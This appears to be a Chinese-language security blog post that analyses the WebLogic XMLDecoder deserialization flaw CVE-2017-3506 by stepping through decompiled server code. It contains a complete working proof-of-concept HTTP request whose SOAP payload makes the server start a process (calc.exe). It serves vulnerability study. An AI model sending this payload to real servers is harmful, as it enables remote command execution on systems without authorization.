





### 0x01 前言

接着上一节，说说Weblogic中的XMLDecoder反序列化（CVE-2017-3506),其实关于这个漏洞后续还有多个绕过，CVE编号分别为：CVE-2017-10271、CVE-2019-2725

关于后面两个漏洞以及对应的绕过手法，我们后续再谈~(怎么感觉给自己开的坑越来越多)

### 0x02 调试分析

调试Webloig需要搭建好配置的环境以及对应的POC,关于Weblogic的远程调试方法，我在 **《IDEA调试技巧2》** 中已经讲解了，poc如下：

```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: localhost:7001
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept-Encoding: gzip, deflate
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Connection: close
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Content-Type: text/xml;charset=UTF-8
Content-Length: 757


            <soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
              <soapenv:Header>
                <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
                  <java>
                    <object class="java.lang.ProcessBuilder">
                      <array class="java.lang.String" length="1">
                        <void index="0">
                          <string>calc.exe</string>
                        </void>
                      </array>
                      <void method="start"/>
                    </object>
                  </java>
                </work:WorkContext>
              </soapenv:Header>
              <soapenv:Body/>
            </soapenv:Envelope>
            
```

分析一个漏洞的目的是什么?在我这里，就是弄清楚整个漏洞的利用链，学习一些手法或者挖掘思路，怎么弄清楚利用链呢？其实我在另一篇 **《IDEA调试技巧1》** 中有提到过相关方法，从POC中可以看出，如果这个xml文件被反序列化将会调用ProcessBuilder类的start方法，所以，我们只需要用idea在ProcessBuilder的start方法处下断点然后观察堆栈调用，就可以看到整个利用链

然后我们可以进一步分析我们感兴趣的类，说干就干，在start处下断点，然后发送payload:



注意到调用堆栈中的有XMLDecoder类的readObject方法，一下子我们就定位到了问题!

为了更加详细的了解这个漏洞，我们还是从processRequest方法跟一下,看看细节

```java
    public NextAction processRequest(Packet var1) {
        this.isUseOldFormat = false;
        if (var1.getMessage() != null) {
            HeaderList var2 = var1.getMessage().getHeaders();
            Header var3 = var2.get(WorkAreaConstants.WORK_AREA_HEADER, true);
            if (var3 != null) {
                this.readHeaderOld(var3);
                this.isUseOldFormat = true;
            }

            Header var4 = var2.get(this.JAX_WS_WORK_AREA_HEADER, true);
            if (var4 != null) {
                this.readHeader(var4);
            }
        }

        return super.processRequest(var1);
    }
```
上面的processRequest方法的参数var1的content就是我们发送的xml数据，然后var3为null就会执行readHeaderOld，



if 判断前的两行代码分别是获取payload中的下面两行的(大概是这么个意思~)



所以，payload中的这两行不能少,然后我们到readHeaderOld中看一下：
代码不多，但是其中的每一个变量的属性都很多，实在不想一个个看了，我直接步进，直到112行这儿，从IDEA中可以看到var4的内容为


```
<java>
                    <object class="java.lang.ProcessBuilder">
                      <array class="java.lang.String" length="1">
                        <void index="0">
                          <string>calc.exe</string>
                        </void>
                      </array>
                      <void method="start"/>
                    </object>
                  </java>
```

这就应该引起我们的注意了，可以看到var4在112行这里先是调用了toByteArray,然后被包装到ByteArrayInputStream中，最后传入到WorkContextXmlInputAdapter的构造函数，我们跟进：

```java
    public WorkContextXmlInputAdapter(InputStream var1) {
        this.xmlDecoder = new XMLDecoder(var1);
    }
```

在这个构造函数中，var4又被封装到XMLDecoder中，如果你认真学习了XMLDecoder反序列化原理那一篇文章，你应该知道，现在如果有一处代码调用this.xmlDecoder.readObject(),那么就会产生反序列化漏洞，所以我们回到readHeaderOld方法，继续往下看，到this.receive(var6),跟进receive方法：

```java
    protected void receive(WorkContextInput var1) throws IOException {
        WorkContextMapInterceptor var2 = WorkContextHelper.getWorkContextHelper().getInterceptor();
        var2.receiveRequest(var1);
    }
```

我们需要关注的是receiveRequest方法，跟进：

```java
    public void receiveRequest(WorkContextInput var1) throws IOException {
        ((WorkContextMapInterceptor)this.getMap()).receiveRequest(var1);
    }
```

还是继续追踪变量，跟进receiveRequest：

```java
    public void receiveRequest(WorkContextInput var1) throws IOException {
        while(true) {
            try {
                WorkContextEntry var2 = WorkContextEntryImpl.readEntry(var1);
                if (var2 == WorkContextEntry.NULL_CONTEXT) {
                    return;
                }

                String var3 = var2.getName();
                this.map.put(var3, var2);
                if (debugWorkContext.isDebugEnabled()) {
                    debugWorkContext.debug("receiveRequest(" + var2.toString() + ")");
                }
            } catch (ClassNotFoundException var4) {
                if (debugWorkContext.isDebugEnabled()) {
                    debugWorkContext.debug("receiveRequest : ", var4);
                }
            }
        }
    }
```

跟进readEntry:

```java
    public static WorkContextEntry readEntry(WorkContextInput var0) throws IOException, ClassNotFoundException {
        String var1 = var0.readUTF();
        return (WorkContextEntry)(var1.length() == 0 ? NULL_CONTEXT : new WorkContextEntryImpl(var1, var0));
    }
```

跟进readUTF:

```java
    public String readUTF() throws IOException {
        return (String)this.xmlDecoder.readObject();
    }
```

到这里就执行了this.xmlDecoder.readObject(),漏洞触发,合影留念：




